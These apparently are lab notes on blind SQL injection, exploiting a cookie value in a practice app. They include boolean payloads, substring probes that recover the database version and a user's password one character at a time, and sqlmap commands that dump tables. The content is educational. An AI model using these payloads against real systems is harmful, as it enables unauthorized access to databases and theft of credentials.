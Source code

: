 ![[Pasted image 20230718193629.png]]

url encode " or 1=1# and send but we get no response
try  single quote ' but that dosent work as well

```sh
sqlmap -r req.txt
```

req.txt contains HTTP request

![[Pasted image 20230718194403.png]]

Once we send the POST request containing username and password, a cookie is set and that cookie is set in subsequent GET requests



HTTP response after submitting username and password that contains the cookie
![[Pasted image 20230718194720.png]]

subsequent GET requests

![[Pasted image 20230718194809.png]]


append ' or 1=1# at the end of cookie

![[Pasted image 20230718195206.png]]

and we get a valid response

***This is Blind SQL Injection since the query dosent give us any data from the tables rather it only changes behaviour of the page 

eg :
i/p:
' and 1=2#
which is a false query we get 

o/p:

![[Pasted image 20230718201748.png]]

so it does validate the cookie and if given false SQL code it dosent validate the user but if given correct SQL code, it validates the user but dosent give us any tables

SQL substring :
SUBSTRING(_string_, _start_, _length_)

new payload
to check what the first character is

i/p:
' and substring('a',1,1)='1'#
if the first character of string provided in substring  'a' or not

so to check the version

i/p:
' and substring((select version()),1,1)='7'#
put select version() in () because it has to resolve first
version not 7, try 8

i/p:
' and substring((select version()),1,1)='8'#
o/p:
![[Pasted image 20230718203059.png]]

and it is accepted so it is version 8.x.x

now find the third character since second cahracter will be a dot(.)

i/p:
' and substring((select version()),1,3)='8.0'#
and we get a valid o/p

now find the final character

i/p:
' and substring((select version()),1,5)='8.0.3'#

o/p:
![[Pasted image 20230718203356.png]]

now to find password

i/p:
' and substring((select password from injection0x02 where username='jessamy'),1,1)='a'#

(select password from injection0x02 where username='jessamy') entire thing inside ()
because it has to resolve as a whole and has to be resolved first

loop through all characters to find first alphabet of the password

send to intruder and loop through all characters

match at alphabet z

i/p:
' and substring((select password from injection0x02 where username='jessamy'),1,1)='z'#

o/p:
![[Pasted image 20230718204354.png]]

use sqlmap now

```sh
sqlmap -r req2.txt --level=2
```


to use sql map in cookies need to add
--level=2

no need to url encode cookie values since we got our payload working without URL encoding cookie value

![[Pasted image 20230718205131.png]]

it gave us the payload to use


```sh
sqlmap -r req2.txt --level=2 --dump
```

dump the payload we got 

to get the tablename 

```sh
sqlmap -r req2.txt --level=2 --dump --tables
```

![[Pasted image 20230730165330.png]]


```sh
sqlmap -r req2.txt --level=2 --dump -T injection0x02
```
-T:table name

![[Pasted image 20230718205513.png]]

-----
we got a match true for 'z'='Z' which is something to be lloked carefully in SQL 

---